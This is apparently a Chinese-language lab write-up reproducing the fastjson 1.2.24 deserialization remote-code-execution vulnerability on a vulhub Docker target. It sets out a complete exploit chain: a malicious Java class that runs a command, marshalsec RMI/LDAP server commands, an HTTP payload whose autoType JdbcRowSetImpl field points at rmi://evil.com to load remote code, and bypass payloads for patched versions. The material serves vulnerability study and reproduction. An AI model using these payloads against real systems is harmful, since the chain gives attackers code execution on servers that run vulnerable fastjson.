

## fastjson 1.2.24 反序列化导致任意命令执行漏洞复现

#### 1.背景知识

N/D服务是Naming Service 和 Directory Service ，就是JNDI的命名服务和目录服务。

JNDI，JNDI即Java Naming and Directory Interface，翻译成中文就Java命令和目录接口，2016年的BlackHat大会上web议题重点讲到，JNDI提供了很多实现方式，主要有RMI，LDAP，CORBA等。

RMI, Remote Method Invocation 是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。

LDAP是开放的Internet标准，支持跨平台的Internet协议，在业界中得到广泛认可的，并且市场上或者开源社区上的大多产品都加入了对LDAP的支持，因此对于这类系统，不需单独定制，只需要通过LDAP做简单的配置就可以与服务器做认证交互。“简单粗暴”，可以大大降低重复开发和对接的成本。

fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

#### 2.搭建有fastjson漏洞的靶机环境

[vulhub镜像](https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.24-rce)

在服务器安装docker环境模拟有漏洞的fastjson服务器： ```docker-compose up -d```

docker环境是Java 8u102，没有com.sun.jndi.rmi.object.trustURLCodebase的限制，我们可以使用com.sun.rowset.JdbcRowSetImpl的利用链，借助JNDI注入来执行命令

启动后，```http://vps1:8090``` 即可看到JSON格式的输出,代表环境搭建成功。

#### 3.编译恶意类，放在vps上

javac 编译恶意类(据说jdk1.6 编译效果更佳)

	// javac TouchFile.java
	import java.lang.Runtime;
	import java.lang.Process;
	
	public class TouchFile {
	    static {
	        try {
	            Runtime rt = Runtime.getRuntime();
	            String[] commands = {"touch", "/tmp/success"};
	            Process pc = rt.exec(commands);
	            pc.waitFor();
	        } catch (Exception e) {
	            // do nothing
	        }
	    }
	}

vps 启动一个承载恶意类的服务器，比如tomcat/apache，这里我将编译完的恶意类放在apache的根目录。

浏览器输入 ```http://vps2/TouchFile.class``` 即可下载，代表恶意类配置完成。 


#### 3.搭建vps 模拟RMI/LDAP服务器，

marshalsec 是一个可以方便的开启 RMI 和 LDAP 服务的工具。

	git clone https://github.com/mbechler/marshalsec

	cd marshalsec

maven 编译为 可执行jar包。

	mvn clean package -DskipTests

在vps启动RMI服务

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS:80/#TouchFile 1099


这里的 ```/VPS:80``` 为 apache 服务器的web路径

1099 是 RMI服务的默认端口，所以不填的时候默认为1099，也可以指定任意未占用端口。

另外，我用的腾讯云vps还要开启防火墙入站规则，否则1099无法被外界访问

	firewall-cmd --zone=public --add-port=1099/tcp --permanent
	
	firewall-cmd --reload
	
	firewall-cmd --list-all

#### 4.向靶场服务器发送payload，json参数里请求RMI的地址

	POST / HTTP/1.1
	Host: target_ip:8090
	Accept-Encoding: gzip, deflate
	Accept: */*
	Accept-Language: en
	User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
	Connection: close
	Content-Type: application/json
	Content-Length: 160
	
	{
	    "b":{
	        "@type":"com.sun.rowset.JdbcRowSetImpl",
	        "dataSourceName":"rmi://evil.com:1099/TouchFile",
	        "autoCommit":true
	    }
	}

在本地发包即可，目的ip为远程靶机，调用RMI 为恶意vps地址


恶意服务器marshalsec回显


进入靶机docker查看命令执行结果


#### 5.补充ladp方式payload

payload 相同，只是用ldap服务。


ldap服务器回显


结果验证




#### 6.影响版本

基于RMI的利用方式

适用jdk版本：JDK 6u132, JDK 7u122, JDK 8u113之前。

基于ldap的利用方式 (ldap 默认端口 1389)

适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。

基于BeanFactory的利用方式

适用jdk版本：JDK 11.0.1、8u191、7u201、6u211以后。

利用前提：因为这个利用方式需要借助服务器本地的类，而这个类在tomcat的jar包里面，一般情况下只能在tomcat上可以利用成功。

[参考资料](https://www.freebuf.com/vuls/208339.html)


#### 7.补丁绕过

1.依赖于ibatis的payload,1.2.45的绕过：

	{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
	 "properties"{"data_source":"rmi://localhost:1099/Exploit"}}

2.绕过@type检查

	{
		"@type":"Lcom.sun.rowset.RowSetImpl;",
	 	"dataSourceName":"rmi://localhost:1099/Exploit",
 	 	"autoCommit":true
	}


